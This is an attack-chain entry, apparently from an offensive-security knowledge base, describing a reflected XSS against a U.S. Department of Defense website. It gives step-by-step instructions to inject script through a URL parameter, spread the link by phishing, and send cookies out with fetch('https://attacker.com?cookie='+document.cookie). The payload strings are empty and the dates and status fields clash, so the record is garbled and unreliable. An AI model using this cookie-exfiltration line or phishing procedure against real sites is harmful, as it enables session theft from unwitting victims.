

---
tags:
  - xss
  - reflected-xss
  - web-vulnerability
  - session-theft
type: attack_chain
tools: []
tactics:
  - '[[Execution]]'
  - '[[Collection]]'
commands: []
platforms:
  - Web
complexity: low
procedures:
  - '[[procedures/Demonstrate-Reflected-XSS-via-Malicious-URL]]'
step_count: 1
techniques:
  - '[[JavaScript]]'
description: >-
  A single-step attack demonstrating a reflected XSS vulnerability on a DoD
  website by injecting malicious JavaScript via a URL parameter, enabling script
  execution in the victim's browser to steal session data or modify content.
skill_level: beginner
impact_level: medium
id: 76381f7b-986d-45b5-827c-cb9eaee6afd1
created_at: '2025-12-14T03:15:41.257Z'
updated_at: '2025-12-14T03:15:41.257Z'
verified: false
validated: true
submitted: true
mitre_tactics:
  - '[[Execution]]'
  - '[[Collection]]'
mitre_techniques:
  - '[[JavaScript]]'
---
# Reflected XSS on U.S. Department of Defense Website for Session Information Theft

A reflected cross-site scripting (XSS) vulnerability was identified on a U.S. Department of Defense website, allowing attackers to inject and execute malicious JavaScript in a victim's browser by crafting a specially formatted URL. The payload is reflected back unsanitized in the page response, leading to potential theft of session cookies, web session information, or unauthorized modification of page content. This vulnerability exploits insufficient input validation on user-supplied data in URL parameters or query strings.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 1 |
| Execution Time | ~1 minute |
| Skill Level | Beginner |
| Complexity | Low |
| Impact Level | Medium |

## Attack Flow Visualization

## Prerequisites & Requirements

### Required Tools

- Web browser (e.g., Chrome, Firefox)

### Target Environment

- Web platform
- Access to a public-facing DoD website with vulnerable search or input parameter
- No special services or ports required beyond HTTP/HTTPS (80/443)

### Initial Access Requirements

- No credentials needed
- Direct network access to the target website
- No prior access required; social engineering may be used to trick victims into clicking the malicious URL

## Detailed Attack Procedures

### Step 1: Inject Malicious Payload via URL
procedure: [[procedures/Demonstrate-Reflected-XSS-via-Malicious-URL]]

**Objective**: Craft and deliver a URL containing a malicious JavaScript payload that gets reflected and executed in the victim's browser, allowing session data exfiltration or content manipulation.

**Instructions**: Identify a vulnerable parameter on the target website (e.g., a search query field). Append a payload like `` to the URL parameter without proper encoding. For example, if the vulnerable endpoint is `https://target.dod.mil/search?q=`, the malicious URL becomes `https://target.dod.mil/search?q=`. Send this URL to a victim via email or phishing link. Upon clicking, the browser renders the page, reflects the unsanitized input, and executes the script.

**Expected Output**: An alert box displaying the victim's session cookies, or network requests to an attacker-controlled server if the payload exfiltrates data (e.g., via `fetch('https://attacker.com?cookie='+document.cookie)`).

**Success Indicators**:
- JavaScript alert or console log appears in the browser
- Session cookies are captured by the attacker
- Page content is altered (e.g., via DOM manipulation)

## Attack Chain Summary

### Key Achievements

1. Successful injection and reflection of malicious JavaScript on a high-security DoD website
2. Demonstration of potential session hijacking without authentication
3. Highlighting risks of unsanitized user input in web applications

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Execution]]
- [[Collection]]

---
*Last updated: 2023-10-01*
